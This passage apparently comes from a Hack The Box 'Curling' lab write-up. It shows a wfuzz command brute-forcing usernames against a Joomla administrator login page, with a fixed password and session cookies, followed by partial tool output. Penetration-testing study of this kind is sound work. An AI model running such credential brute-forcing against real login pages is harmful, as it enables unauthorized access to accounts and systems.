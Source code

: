![](images/htb-curling-homepage-login-fuzz-burp.png)


```
$ wfuzz -w cewl.out -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&f41cdd634b46a03391978be6931b60a4=1' -b 'c0548020854924e0aecd05ed9f5b672b=4q1b857bq0kuq9f9ak7def40tk; 99fb082d992a92668ce87e5540bd20fa=msrshlhlf2v5j9nqp9iocg6qsl' -c 'http://10.10.10.150/administrator/index.php'
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/administrator/index.php
Total requests: 218

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                      
=====================================================================

000000007:   200        114 L    373 W      5403 Ch     "are"                                                        
000000004:   200        114 L    373 W      5403 Ch     "site"                                                       
000000005:   200        114 L    373 W      5403 Ch     "you"                                                        
```